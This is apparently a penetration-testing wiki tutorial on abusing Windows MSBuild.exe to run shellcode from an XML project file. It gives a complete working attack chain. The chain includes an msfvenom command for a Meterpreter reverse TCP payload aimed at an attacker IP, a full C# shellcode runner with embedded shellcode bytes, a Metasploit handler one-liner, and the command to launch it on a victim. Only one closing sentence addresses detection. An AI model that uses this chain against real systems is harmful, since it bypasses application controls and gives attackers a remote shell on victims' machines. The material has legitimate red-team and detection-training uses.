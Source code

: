 # Using MSBuild to Execute Shellcode in C\#

It's possible to use a native windows binary MSBuild.exe to compile and execute inline C# code stored in an xml as discovered by [Casey Smith](https://twitter.com/subTee).

## Execution

Generate meterpreter shellode in c#:

{% code title="attacker@kali" %}
```csharp
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=443 -f csharp
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-04-04-20-53-21.png)

Insert shellcode into the shellcode variable in linne 46:

{% code title="bad.xml" %}
```markup
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
         <!-- This inline task executes shellcode. -->
         <!-- C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe SimpleTasks.csproj -->
         <!-- Save This File And Execute The Above Command -->
         <!-- Author: Casey Smith, Twitter: @subTee -->
         <!-- License: BSD 3-Clause -->
	  <Target Name="Hello">
	    <ClassExample />
	  </Target>
	  <UsingTask
	    TaskName="ClassExample"
	    TaskFactory="CodeTaskFactory"
	    AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
	    <Task>
	    
	      <Code Type="Class" Language="cs">
	      <![CDATA[
		using System;
		using System.Runtime.InteropServices;
		using Microsoft.Build.Framework;
		using Microsoft.Build.Utilities;
		public class ClassExample :  Task, ITask
		{         
		  private static UInt32 MEM_COMMIT = 0x1000;          
		  private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;          
		  [DllImport("kernel32")]
		    private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr,
		    UInt32 size, UInt32 flAllocationType, UInt32 flProtect);          
		  [DllImport("kernel32")]
		    private static extern IntPtr CreateThread(            
		    UInt32 lpThreadAttributes,
		    UInt32 dwStackSize,
		    UInt32 lpStartAddress,
		    IntPtr param,
		    UInt32 dwCreationFlags,
		    ref UInt32 lpThreadId           
		    );
		  [DllImport("kernel32")]
		    private static extern UInt32 WaitForSingleObject(           
		    IntPtr hHandle,
		    UInt32 dwMilliseconds
		    );          
		  public override bool Execute()
		  {
			//replace with your own shellcode
		    byte[] shellcode = new byte[] { 0xfc,0xe8,0x82,0x00,0x00,0x00,0x60,0x89,0xe5,0x31,0xc0,0x64,0x8b,0x50,0x30,0x8b,0x52,0x0c,0x8b,0x52,0x14,0x8b,0x72,0x28,0x0f,0xb7,0x4a,0x26,0x31,0xff,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0xc1,0xcf,0x0d,0x01,0xc7,0xe2,0xf2,0x52,0x57,0x8b,0x52,0x10,0x8b,0x4a,0x3c,0x8b,0x4c,0x11,0x78,0xe3,0x48,0x01,0xd1,0x51,0x8b,0x59,0x20,0x01,0xd3,0x8b,0x49,0x18,0xe3,0x3a,0x49,0x8b,0x34,0x8b,0x01,0xd6,0x31,0xff,0xac,0xc1,0xcf,0x0d,0x01,0xc7,0x38,0xe0,0x75,0xf6,0x03,0x7d,0xf8,0x3b,0x7d,0x24,0x75,0xe4,0x58,0x8b,0x58,0x24,0x01,0xd3,0x66,0x8b,0x0c,0x4b,0x8b,0x58,0x1c,0x01,0xd3,0x8b,0x04,0x8b,0x01,0xd0,0x89,0x44,0x24,0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,0xe0,0x5f,0x5f,0x5a,0x8b,0x12,0xeb,0x8d,0x5d,0x68,0x33,0x32,0x00,0x00,0x68,0x77,0x73,0x32,0x5f,0x54,0x68,0x4c,0x77,0x26,0x07,0x89,0xe8,0xff,0xd0,0xb8,0x90,0x01,0x00,0x00,0x29,0xc4,0x54,0x50,0x68,0x29,0x80,0x6b,0x00,0xff,0xd5,0x6a,0x0a,0x68,0x0a,0x00,0x00,0x05,0x68,0x02,0x00,0x01,0xbb,0x89,0xe6,0x50,0x50,0x50,0x50,0x40,0x50,0x40,0x50,0x68,0xea,0x0f,0xdf,0xe0,0xff,0xd5,0x97,0x6a,0x10,0x56,0x57,0x68,0x99,0xa5,0x74,0x61,0xff,0xd5,0x85,0xc0,0x74,0x0a,0xff,0x4e,0x08,0x75,0xec,0xe8,0x67,0x00,0x00,0x00,0x6a,0x00,0x6a,0x04,0x56,0x57,0x68,0x02,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x00,0x7e,0x36,0x8b,0x36,0x6a,0x40,0x68,0x00,0x10,0x00,0x00,0x56,0x6a,0x00,0x68,0x58,0xa4,0x53,0xe5,0xff,0xd5,0x93,0x53,0x6a,0x00,0x56,0x53,0x57,0x68,0x02,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x00,0x7d,0x28,0x58,0x68,0x00,0x40,0x00,0x00,0x6a,0x00,0x50,0x68,0x0b,0x2f,0x0f,0x30,0xff,0xd5,0x57,0x68,0x75,0x6e,0x4d,0x61,0xff,0xd5,0x5e,0x5e,0xff,0x0c,0x24,0x0f,0x85,0x70,0xff,0xff,0xff,0xe9,0x9b,0xff,0xff,0xff,0x01,0xc3,0x29,0xc6,0x75,0xc1,0xc3,0xbb,0xf0,0xb5,0xa2,0x56,0x6a,0x00,0x53,0xff,0xd5 };
		      
		      UInt32 funcAddr = VirtualAlloc(0, (UInt32)shellcode.Length,
			MEM_COMMIT, PAGE_EXECUTE_READWRITE);
		      Marshal.Copy(shellcode, 0, (IntPtr)(funcAddr), shellcode.Length);
		      IntPtr hThread = IntPtr.Zero;
		      UInt32 threadId = 0;
		      IntPtr pinfo = IntPtr.Zero;
		      hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
		      WaitForSingleObject(hThread, 0xFFFFFFFF);
		      return true;
		  } 
		}     
	      ]]>
	      </Code>
	    </Task>
	  </UsingTask>
	</Project>
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-04-04-20-54-14.png)

Spin up a handler in metasploit to catch your shell:

{% code title="attacker@kali" %}
```csharp
msfconsole -x "use exploits/multi/handler; set lhost 10.0.0.5; set lport 443; set payload windows/meterpreter/reverse_tcp; exploit"
```
{% endcode %}

Build and execute malicious payload on the victim system using MSBuild:

{% code title="attacker@victim" %}
```csharp
C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe C:\bad\bad.xml
```
{% endcode %}

![](../../.gitbook/assets/peek-2019-04-04-20-57.gif)

## Observation

Note that it's MSBuild.exe that will make the TCP connection to the attacker, so as a defender, you should think about hunting for TCP connections initiated by MSBuild.

## References

[https://gist.github.com/ConsciousHacker/5fce0343f29085cd9fba466974e43f17](https://gist.github.com/ConsciousHacker/5fce0343f29085cd9fba466974e43f17)

